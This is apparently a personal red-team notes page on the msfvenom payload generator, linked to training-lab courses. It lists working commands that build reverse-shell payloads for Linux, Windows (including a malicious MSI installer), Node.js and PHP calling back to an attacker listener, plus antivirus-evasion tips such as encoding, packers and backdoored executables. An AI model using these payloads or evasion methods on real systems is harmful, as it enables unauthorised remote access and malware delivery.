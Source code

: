 # 🐍 msfvenom 🐍

[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)
[![metasploitexploitation](../../../_badges/thmp/metasploitexploitation.svg)](https://tryhackme.com/room/metasploitexploitation)
[![fileuploadattacks](../../../_badges/htb/fileuploadattacks.svg)](https://academy.hackthebox.com/course/preview/file-upload-attacks)

<div class="row row-cols-lg-2"><div>

msfvenom is a tool of the [metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md) framework to generate payloads for reverse shells. We can customize payloads according to:

* 🎠 the program executing the payload <small>(PHP, python...)</small>
* 🏡 the target operating system
* 🛡️ the presence and configuration of a firewall
* 🔫️ the presence and configuration of an antivirus
* ...

```ps
$ msfvenom --list payloads
$ msfvenom --list payloads | grep meterpreter
```
</div><div>

msfvenom is often used with the [msfconsole](/cybersecurity/red-team/tools/frameworks/metasploit/_files/msf_handler.md) to catch them and pop a meterpreter shell <small>(see Metasploit framework, in short, an upgraded shell)</small>.

Metasploit separated **staged** payloads from **inline** payloads. The former is involving two steps: a simple payload <small>(called stage/stager)</small> is sent, which then request the rest of the payload. They are mainly used when there is a restriction on the size of the payload.

In Metasploit, the `_` is replaced with a `/` for staged payloads.

* `php/meterpreter_reverse_tcp`: inline/single
* `php/meterpreter/reverse_tcp`: staged
</div></div>

<hr class="sep-both">

## 🐸 Common options 🐸

<div class="row row-cols-lg-2"><div>

**-p** to define the payload to use.

```ps
$ msfvenom -p cmd/unix/reverse_netcat [...]
```

**LHOST/LPORT** to define where the target will connect back.

```ps
$ msfvenom [...] LHOST=tun0 LPORT=4444
```

**-f** to define the format of the output. For instance, raw code.

```ps
$ msfvenom [...] -f raw
$ msfvenom [...] R # same for -f RAW
```
</div><div>

**-e** to define the encoding. It's mainly used to bypass firewall or reduce the size of the payload.

```ps
$ msfvenom [...] -e php/base64
```
</div></div>

<hr class="sep-both">

## 📌 Some payloads 📌

All examples are asking the target to connect back to `tun0` IP at the port `4444`.

<div class="row row-cols-md-2 mt-3"><div>

* **Linux** (.elf / ...)

```bash
# execute /bin/bash -p
$ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
# Generate a .elf opening a reverse shell (TCP)
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell.elf
# Output a command (RAW) opening a reverse shell with netcat
$ msfvenom -p cmd/unix/reverse_netcat LHOST=tun0 LPORT=4444 -f raw
```

* **Windows** (.exe / .msi / ...)

```bash
# Generate a .exe opening a reverse shell (TCP)
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o shell.exe
# Generate a malicious installer (msi)
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f msi -o shell.msi
```
</div><div>

* **Node.js**

```bash
# Generate a .js opening a reverse shell (TCP)
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=tun0 LPORT=4444 -o shell.js
```

* **PHP**

```bash
# very unstable shell, not recommended
$ msfvenom -p php/reverse_php LHOST=tun0 LPORT=4444 -o revshell.php
# meterpreter
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -o revshell.php
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

Payload Encoding: make the payload comptabible with different architectures and help with antivirus evasion.

* Shikata Ga Nai (SGN): good but still detected by modern antivirus. `-e x86/shikata_ga_nai`
* Use iterations to make it harder to detect: `-i 10`
* Password-protected archives are an additional antivirus evasion technique
* backdoored executable: use executable templates to hide the code
* Packers are also an alternative: [polypack](https://jon.oberheide.org/files/woot09-polypack.pdf)
</div><div>

Other options:

* `-a x86`: explicit architecture
* `--platform windows`: explicit platform
* `-k`: with backdoored executable, the original executable still runs as it was. If started from a terminal, a new terminal will (still) pop.
* `-x xxx.exe`
* `-o xxx.exe`

Test on Virus Total: `msf-virustotal -k <API key> -f xxx.exe`
</div></div>